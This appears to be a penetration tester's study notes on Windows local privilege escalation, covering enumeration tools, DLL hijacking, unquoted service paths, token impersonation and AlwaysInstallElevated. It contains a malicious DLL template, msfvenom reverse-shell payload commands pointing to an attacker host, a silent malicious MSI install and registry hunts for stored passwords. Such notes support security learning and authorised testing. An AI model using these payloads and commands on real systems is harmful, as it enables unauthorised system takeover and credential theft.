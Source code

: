 **Tags:** #type/tech-specific #tactic/privilege-escalation 

---

## Resources
checklist: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
info on vectors: https://github.com/sagishahar/lpeworkshop

## useful scripts
**winPEAS**
  [[3 Tools/privilige escalation/winPEAS|winPEAS]]
**PowerUp**
[[3 Tools/privilige escalation/PowerUp|PowerUp]]
**windows exploit suggester**
old version: https://github.com/AonCyberLabs/Windows-Exploit-Suggester (use for old windows versions)
new version: https://github.com/bitsadmin/wesng
1. install on attacker
2. run `windows-exploit-suggester.py –update` on attacker
3. run `systeminfo` on target and save output to file (`> output.txt`), transfer file to attacker
4. run exploit suggester, eg.`windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt`
**meterpreter**
if you have [[3 Tools/Metasploit framework/meterpreter]] shell
use `multi/recon/local_exploit_suggester`
**Seatbelt**
https://github.com/GhostPack/Seatbelt
**BeRoot**
https://github.com/AlessandroZ/BeRoot

# Windows user accounts
**Administrator (local):** This is the user with the most privileges.
**Standard (local):** These users can access the computer but can only perform limited tasks. Typically these users can not make permanent or essential changes to the system. 
**Guest:** This account gives access to the system but is not defined as a user. 
**Standard (domain):** Active Directory allows organizations to manage user accounts. A standard domain account may have local administrator privileges. 
**Administrator (domain):** Could be considered as the most privileged user. It can edit, create, and delete other users throughout the organization's domain. 

**SYSTEM account:** you cant log in, but it is used by services installed on the machine

## method
1. enumerate current user and its privileges [[2 Tech-Specifics/OS/Windows/Privilege Escalation/manual privesc enum]]
2. if possible use enumeration script (winPEAS or PowerUp.ps1)
3. go by checklist

# Vectors
## DLL hijacking
### DLL search order
If **SafeDllSearchMode** is enabled:
1. directory from which the application loaded.
2. The system directory. Use the [GetSystemDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya) to get the path of this directory.
3. The 16-bit system directory.
4. The Windows directory. [GetWindowsDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya) to get the path
5. The current directory.
6. PATH directories. Note that this does not include the per-application path specified by the **App Paths** registry key. The **App Paths** key is not used when computing the DLL search path.

if **SafeDllSearchMode** is disabled:
1. dir where application is loaded
2. current directory
3. system directory
4. 16-bit system directory
5. windows directory
6. PATH directories

for DLL hijack insert malicous DLL in higher position than the legitimate is in
vulnerabilities can only be discorvered with admin privs -> you need a test system

malicious DLL template:
``` 
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)

{

if (dwReason == DLL_PROCESS_ATTACH) {
system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
ExitProcess(0);
}
return TRUE;

}
``` 
compile with mingw: `x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`
`sc stop dllsvc & sc start dllsvc`

## unquoted service path
requirements:
1. Being able to write to a folder on the path
2. Being able to restart the service

if the path of a service is not provided as absolute path written in quotes, windows will start searching for the binary to run: it will search in every directory contained by the path, starting at the lowest one
-> put malicious .exe file in a directory where windows finds it before the legitimate one

1. find service with unquoted path
`wmic service get name,displayname,pathname,startmode`: to list services, search for unquoted path
2. check privs on path folders: eg. `.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"`
3. generate payload, eg with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[port] -f exe > [executable_name].exe`
4. start/restart service `sc start [service name]`

## Token impersonation
services make requests to higher priviliged service accounts -> man in the middle attack to get a security token to athenticate on the service account
**eg. Hot Potato (alread patched):**
Step 1: The target system uses the Web Proxy Auto-Discovery (WPAD) protocol to locate its update server. 
Step 2: This request is intercepted by the exploit, which sends a response redirecting the target system to a port on 127.0.0.1. 
Step 3: The target system will ask for a proxy configuration file (wpad.dat). 
Step 4: A malicious wpad.dat file is sent to the target.
Step 5: The target system tries to connect to the proxy (now set by the malicious wpad.dat file sent on the previous step). 
Step 6: The exploit will ask the target system to perform an NTLM authentication. 
Step 7: The target system sends an NTLM handshake. 
Step 8: The handshake received is relayed to the SMB service with a request to create a process. This process will have the privilege level of the service targeted, which would typically be "NT AUTHORITY\SYSTEM".

## scheduled tasks
same method as with cronjobs on linux
`schtasks`: query scheduled tasks
eg. `schtasks /query /fo LIST /v`

## Driver
are not updated very often, exploits may be available online
`driverquery`: list installed drivers

## AlwaysInstallElevated
if windows installer files (.msi) always run with elevated privileges, we can create a malicious .msi file and run it on the target system
prerequisites: the following registry options have to be set:
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer` 
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
1. generate payload, eg using [[3 Tools/Metasploit framework/msfvenom]]: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f msi -o malicious.msi`
2. transfer payload to target
3. start installer: `C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

## Saved Credentials
list credentials that are saved on the system: `cmdkey /list`
try saved credentials: `runas /savecred /user:admin reverse_shell.exe`
query registry keys possibly containing passwords: `reg query HKLM /f password /t REG_SZ /s` or `reg query HKCU /f password /t REG_SZ /s`

## local service connections
some services may have network connections to localhost. since they are not cnnected to the outside, they often have weak security configs.
any port that is listening, and not detectable from an outside scan may be vulnerable
`netstat -ano`: list active internal network connection
	`-a`: all active connections and listening ports
	`-n`: no name resolution
	`-o`: show corresponding process id

## installed software
check installed software and search for exploits
